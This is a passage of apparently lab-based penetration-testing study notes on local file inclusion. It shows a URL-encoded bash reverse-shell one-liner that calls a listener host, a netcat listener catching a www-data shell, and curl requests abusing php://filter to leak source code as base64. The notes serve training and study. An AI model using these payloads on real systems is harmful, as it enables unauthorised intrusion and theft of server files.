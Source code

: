 - URL encoded Bash TCP reverse shell one-liner
```
bash%20-c%20%22bash%20-i%20%3E%26%20%2Fdev%2Ftcp%2F192.168.119.3%2F4444%200%3E%261%22
```
##### (5) netcat listene & send request
- send request\
![image](https://hackmd.io/_uploads/B1_QFYuzJl.png)

- netcat listener
```
┌──(chw㉿CHW-kali)-[/]
└─$ nc -nvlp 4444
listening on [any] 4444 ...
connect to [192.168.119.3] from (UNKNOWN) [192.168.50.16] 57848
bash: cannot set terminal process group (24): Inappropriate ioctl for device
bash: no job control in this shell
www-data@fbea640f9802:/var/www/html/meteor$ ls
admin.php
bavarian.php
css
fonts
img
index.php
js
```
####  Log Poisoning on Windows
XAMPP:\
Apache logs: `C:\xampp\apache\logs\`

>[!Note]
>LFI and RFI vulnerabilities:\
>other frameworks or server-side scripting languages including `Perl`, `Active Server Pages Extended`, `Active Server Pages`, and `Java Server Pages`.

>[!Important]
> 1. LFI vulnerability in a `JSP web application`
> 2. LFI vulnerabilities in modern back-end JavaScript runtime environments like `Node.js`.

### 2. PHP Wrappers
#### **php://filter**
Display the contents of files either with or without encodings like ROT13 or Base64.
```
┌──(chw㉿CHW-kali)-[/]
└─$ curl http://mountaindesserts.com/meteor/index.php?page=admin.php
...
<a href="index.php?page=admin.php"><p style="text-align:center">Admin</p></a>
<!DOCTYPE html>
<html lang="en">
<head>
    <meta charset="UTF-8">
    <meta name="viewport" content="width=device-width, initial-scale=1.0">
    <title>Maintenance</title>
</head>
<body>
        <span style="color:#F00;text-align:center;">The admin page is currently under maintenance.

┌──(chw㉿CHW-kali)-[/]
└─$ curl http://mountaindesserts.com/meteor/index.php?page=php://filter/convert.base64-encode/resource=admin.php
...
<a href="index.php?page=admin.php"><p style="text-align:center">Admin</p></a>
PCFET0NUWVBFIGh0bWw+CjxodG1sIGxhbmc9ImVuIj4KPGhlYWQ+CiAgICA8bWV0YSBjaGFyc2V0PSJVVEYtOCI+CiAgICA8bWV0YSBuYW1lPSJ2aWV3cG9ydCIgY29udGVudD0id2lkdGg9ZGV2aWNlLXdpZHRoLCBpbml0aWFsLXNjYWxlPTEuMCI+CiAgICA8dGl0bGU+TWFpbn...
```